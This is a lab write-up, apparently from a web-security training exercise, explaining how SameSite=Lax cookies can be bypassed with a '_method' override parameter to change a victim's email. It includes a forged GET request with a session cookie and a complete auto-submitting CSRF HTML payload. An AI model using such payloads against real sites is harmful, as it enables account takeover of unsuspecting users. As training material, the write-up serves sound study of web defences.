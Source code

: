 

# SameSite Lax bypass via method override
Change the email. 
## Observations
SameSite is a flag on cookies that tells the browser when to include them in cross-site requests:
	•	Strict → never send cookies on cross-site requests.
	•	Lax → send cookies only on top-level navigations using “safe” HTTP methods (like GET).
	•	None; Secure → always send cookies cross-site, but must be over HTTPS.

With Lax:
	•	Blocked: Cookies are not sent with cross-site POSTs, iframes, or subresource requests (like <img> or AJAX from another origin). This mitigates CSRF somewhat.
	•	Allowed: Cookies are sent with top-level navigations using safe methods (GET, HEAD, OPTIONS, TRACE).

Top level navigation is when the entire tab changes to a new URL. 

So if a malicious site tricks a user into clicking a link:
```
<a href="https://victim.com/account/delete">Click me!</a>
```
that is a top level nagivation via GET > the victim's browser includes the session cookie, because SameSite=Lax permits it. 

- The session cookie is not set to any SameSite level when logging in or changing emails so by default it falls back to LAX. 
- This means we could get a CSRF since there are no other protections if we can get top-level navigation to work with the right method (the form only accepts POST requests). With "change request method" to GET we get "Method not allowed" but we may still be able to pass parameters via a URL if we add the ```_method``` parameter to the URL:
```
GET /my-account/change-email?email=test%40email.com&_method=POST HTTP/2
Host: 0a7c00a004d0aad880a9030900ac002b.web-security-academy.net
Cookie: session=xw4XRa3l7jloo6xTHiiCtFlOXQTdaqVQ
```
^ this works. So, we can craft a CSRF this way and deliver it. 
Final payload:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a7c00a004d0aad880a9030900ac002b.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="hidden" name="&#95;method" value="POST" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
